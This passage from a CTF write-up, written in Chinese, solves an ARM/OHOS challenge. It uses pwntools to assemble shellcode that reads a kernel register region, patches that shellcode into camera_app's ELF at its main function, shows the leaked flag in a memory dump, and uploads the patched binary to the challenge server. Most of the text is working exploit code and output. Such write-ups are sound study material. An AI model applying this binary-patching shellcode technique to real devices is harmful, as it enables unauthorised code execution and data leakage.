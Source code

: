 ```python

print(shellcode.hex())
```

然后把这个shellcode塞进一个原本的程序中即可，这里以camera_app为例，其main函数在ELF文件0x1154偏移处：

```python
from pwn import *
context(arch='arm')

shellcode = asm('''
mov r7,0x206
adr r0,readreg
adr r1,cmd
svc 0

readreg:
.asciz  "readreg"

cmd:
.asciz "readreg 0x40130580 100"
''')

print(shellcode.hex())

stub = open('./camera_app','rb').read()
exp  = stub[:0x1154]+shellcode+stub[0x1154+len(shellcode):]
open('./exp','wb').write(exp)
```

重打包后执行便可获取flag：

```python
OHOS # ./exp
OHOS # 
 0x40130580 :67616c66 6968547b 73692073 726f6620 
 0x40130590 :73657420 00007d74 00000000 00000000 
 0x401305a0 :00000000 00000000 4006a2cc 00000000 
 0x401305b0 :00000000 00000000 400ec6ec 401305c8 
 0x401305c0 :4026b8bc 7fffffff 400de6b0 400f84dc 
 0x401305d0 :00000000 00000000 00000002 40300bfc 
 0x401305e0 :4006be2c 
```

然后将elf进行hex编码上传即可获取远程flag：

```python
from pwn import *
context(log_level='debug')

exp = open("./exp",'rb').read().hex()
io = remote("172.35.7.35",9999)

io.sendlineafter(b"finish",exp)
sleep(0.1)
io.sendline(b"Exit")

io.interactive()
```

